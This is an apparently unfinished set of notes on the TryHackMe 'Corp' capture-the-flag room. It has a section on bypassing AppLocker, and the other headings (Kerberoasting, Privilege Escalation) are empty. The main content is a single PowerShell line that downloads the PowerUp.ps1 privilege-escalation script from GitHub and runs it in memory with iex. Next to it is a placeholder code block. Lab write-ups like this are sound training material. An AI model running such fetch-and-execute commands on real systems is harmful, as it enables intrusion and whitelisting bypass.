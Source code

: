 # Corp

**Room Link:** [https://tryhackme.com/room/corp](https://tryhackme.com/room/corp)



## Bypassing Applocker



Load powershell into memory



Kali

```
// Some code
```

Victim(powershell)

```
iex​(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1') 
```



Kerberoasting



Privilege Escalation

